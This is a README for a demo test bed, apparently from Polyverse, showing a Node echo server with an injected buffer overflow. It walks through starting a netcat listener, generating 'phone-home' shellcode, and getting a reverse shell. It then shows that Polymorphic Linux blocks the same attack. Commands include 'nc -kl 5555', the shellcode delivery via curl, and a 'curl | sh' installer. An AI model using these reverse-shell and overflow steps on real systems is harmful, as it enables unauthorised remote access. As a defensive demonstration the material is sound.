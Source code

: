 # node-echo-server
Test bed for using readhook to hook node-echo-server application.
## Running
```sh
docker run -d --rm --name echo -p 8080:8080 polyverse/node-echo-server
```
## Stopping
```sh
docker kill echo
```
## Running interactively
```sh
docker run -it --rm --name echo -p 8080:8080 polyverse/node-echo-server /bin/sh
node echo-server.js
```
## Polyverse Polymorphic Linux
### 1: Setup Listener for Reverse Shell
#### 1.1: Shell-1: Start a listener for the remote shell to connect to
```sh
nc -kl 5555
```
### 2: Start Server with Readhook
#### 2.1: Shell-2: Start the container with an interactive shell
```sh
docker run -it --rm --name echo -p 8080:8080 polyverse/node-echo-server /bin/sh
```
### 2.2: Shell-2: Install readhook
```sh
apk update && apk add curl wget ca-certificates && update-ca-certificates
wget -q -O /tmp/basehook.so https://github.com/polyverse/readhook/releases/download/jenkins/basehook.so
wget -q -O /tmp/fullhook.so https://github.com/polyverse/readhook/releases/download/jenkins/fullhook.so
```
#### 2.3: Shell-2: Run the echo-server with readhook in front of libc
```sh
LD_PRELOAD="/tmp/fullhook.so /tmp/basehook.so" node /src/echo-server.js
```
#### 2.4: Shell-3: Test that the echo-server is running as expected
```sh
curl localhost:8080/echo-this-line-of-text
```
### 3: Generate Shell-Code
#### 3.1: Shell-3: Generate the shell-code needed to "phone-home" to the listener on Shell-1
```sh
export shellCode=$(curl localhost:8080/xyzzxMAKELOADdocker.for.mac.localhost:5555)
```
#### 3.2: Shell-3: Send the shell-code to the OVERFLOW endpoint to check that it works.
```sh
curl localhost:8080/$shellCode
```
#### 3.3: Shell-1: Check that the overflow resulted in a remote shell
```sh
ls && whoami && exit
```
### 4: Install Polyverse Polymorphic Linux
#### 4.1: Shell-2: Add curl and Polyverse Distros
```sh
curl https://repo.polyverse.io/install.sh | sh -s czcw7pjshny8lzzog8bgiizfr demo@polyverse.io
```
#### 4.2: Shell-2: Update packages with Polymorphic Linux packages
```sh
sed -n -i '/repo.polyverse.io/p' /etc/apk/repositories && apk upgrade --update-cache --available
```
#### 4.3: Shell-2: Re-run the echo-server with basehook.so (only)
```sh
LD_PRELOAD=/tmp/basehook.so node /src/echo-server.js
```
#### 4.4: Shell-3: Test the shellCode with Polymorphic Linux
```sh
curl localhost:8080/$shellCode
```
#### 4.5: Shell 1: Confirm that nobody phoned-home to the listener
#### 4.6: Shell 2: Confirm that node terminated abnormally
